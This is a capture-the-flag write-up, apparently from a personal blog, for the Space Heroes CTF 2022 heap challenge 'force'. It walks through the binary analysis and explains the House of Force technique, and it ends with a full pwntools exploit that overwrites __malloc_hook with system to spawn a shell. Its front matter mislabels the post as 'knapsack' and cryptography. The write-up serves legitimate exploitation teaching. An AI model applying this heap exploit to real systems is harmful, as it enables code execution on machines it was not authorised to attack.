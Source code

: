 ```yaml
---
title: "Space Heroes CTF 2022: knapsack"
date: 2025-01-15
draft: false
summary: Basic case of the House of Force variant.
tags:
  - cryptography
---
```

###### Challenge
We are provided a zip file which contains the binary *force* and its GLIBC. The binary seems to be using `GLIBC 2.28 No TCache`. Let's analyze the binary to get more information.

`force: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c50b5c7f0a7dc45dd3409c7fbf1350c534c52662, not stripped`

```
┌──(chronopad㉿VincentXPS)-[~/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke]
└─$ checksec force
[*] '/home/chronopad/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke/force'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./.glibc/glibc_2.28_no-tcache'
    Stripped:   No
```

We are given a custom GLIBC file, which means that there's a specific exploit that we can only perform in this specific GLIBC version, usually a part of heap exploitation techniques.

###### Solution
If we run the binary, we are given two addresses leak. One address is system and the other seems to be the address of the heap. We are then given two choices, which is to "Reach out with the force" or to "Surrender". Surrendering will exit the program while the first option will trigger some questions. To understand what they do, we can try disassembling the binary. Here is a part of `main()` disassembled with **radare2**.

```
│     │╎│   0x004009a2      488d3dbc0100.  lea rdi, str.How_many_midi_chlorians_:_ ; 0x400b65 ; "How many midi-chlorians?: "
│     │╎│   0x004009a9      b800000000     mov eax, 0
│     │╎│   0x004009ae      e8bdfdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009b3      488d45e0       lea rax, [var_20h]
│     │╎│   0x004009b7      4889c6         mov rsi, rax
│     │╎│   0x004009ba      488d3dbf0100.  lea rdi, str._llu           ; 0x400b80 ; "%llu"
│     │╎│   0x004009c1      b800000000     mov eax, 0
│     │╎│   0x004009c6      e8e5fdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│     │╎│   0x004009cb      488d3db30100.  lea rdi, str.What_do_you_feel_:_ ; 0x400b85 ; "What do you feel?: "
│     │╎│   0x004009d2      b800000000     mov eax, 0
│     │╎│   0x004009d7      e894fdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009dc      488b45e0       mov rax, qword [var_20h]
│     │╎│   0x004009e0      4889c7         mov rdi, rax
│     │╎│   0x004009e3      e8b8fdffff     call sym.imp.malloc         ;  void *malloc(size_t size)
```

We can see that the program calls `malloc()`, using the amount of midi-chlorians as the chunk size. Anything we input to the "What do you feel?" question will then be written to the heap memory chunk.

Based on the challenge name, we can pretty much guess that this challenge is a House of Force heap exploitation challenge. This exploitation techniques works by writing more data to the heap more than the chunk size that we requested, which overwrites the size field of the top chunk of the heap, allowing us to do arbitrary write and even code execution.

![Image Description](/images/Pasted%20image%2020250115205717.png)

Because this is just a standard / base-case of the House of Force technique, I'll cut the explanation and go straight for the exploitation. If you are interested about the exploitation, feel free to read the resource below:
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force

```
# exploit.py
from pwn import *

elf = context.binary = ELF("./force")
libc = ELF("./.glibc/glibc_2.28_no-tcache/libc-2.28.so")
io = process(elf.path)
context.log_level = 'debug'

def malloc(size, data):
	io.sendlineafter(b"(2) Surrender\n", b"1")
	io.sendlineafter(b"How many midi-chlorians?: ", str(size).encode())
	io.sendlineafter(b"What do you feel?: ", data)

io.recvuntil(b"You feel a system at ")
libc.address = int(io.recvline().decode(), 16) - libc.sym["system"]
io.recvuntil(b"You feel something else at ")
heap_addr = int(io.recvline().decode(), 16)

print(f"Libc address: {hex(libc.address)}")

malloc(24, b"/bin/sh\x00" + b"A"*16 + p64(0xffffffffffffffff))
malloc((libc.sym["__malloc_hook"] - 0x20) - (heap_addr + 0x20), b"A")
malloc(24, p64(libc.sym["system"]))
# malloc(str(heap_addr + 0x10).encode(), b"A")
malloc(next(libc.search(b"/bin/sh")), b"") # Honestly more reliable

io.interactive()
```

Link, resources:
- https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/space_heroes_22/Use%20the%20Force%2C%20Luke
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force
